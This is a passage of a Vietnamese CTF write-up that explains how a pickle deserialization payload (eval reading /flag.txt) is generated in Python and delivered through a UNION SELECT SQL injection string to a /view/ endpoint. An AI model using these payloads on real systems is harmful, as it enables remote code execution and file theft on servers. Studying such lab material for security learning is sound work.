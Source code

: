 ![alt text](./images/image-2.png)

=> Vậy là ta đã thành công làm cho ứng dụng deserialize object độc hại do ta truyền vào.

**B4:** Ta thực thi lấy `Flag` thông qua các bước tương tự:
1. Đầu tiên ta dùng code python sau để generate ra chuỗi Base64:
```
import pickle, base64

class test:
    def __reduce__(self):
        p="open('/flag.txt').read()"
        return (eval,(p,))

rs={'name':test()}

print(base64.b64encode(pickle.dumps(rs)).decode())
```
**Giải thích:**
* Đầu tiên, ta khai báo 1 class có tên `test`, class này có 1 method duy nhất đó là `__reduce__` . Phương thức này sẽ được gọi khi một đối tượng được **Deserialize**.

* Dòng tiếp theo khai báo 1 string `p` có nội dung là một câu lệnh của python: `open('/flag.txt').read()`. Câu lệnh này sẽ thực hiện mở file `/flag.txt` ở Server ứng dụng và đọc nội dung.
* Cuối cùng mình trả về một tuple gồm 2 phần tử, phần tử đầu tiên là hàm `eval()` và phần tử thứ hai là `p`. Có thể hiểu là return có dạng sau: `return eval(open('/flag.txt').read())`, cuối cùng sẽ trả về kết quả của nội dung `flag.txt`.

2. Ta truyền chuỗi base64 vừa generate vào `/view/` tương tự như ở bước 3 thông qua payload:
```
-1' UNION SELECT 'gASVPgAAAAAAAAB9lIwEbmFtZZSMCGJ1aWx0aW5zlIwEZXZhbJSTlIwYb3BlbignL2ZsYWcudHh0JykucmVhZCgplIWUUpRzLg==` --
```
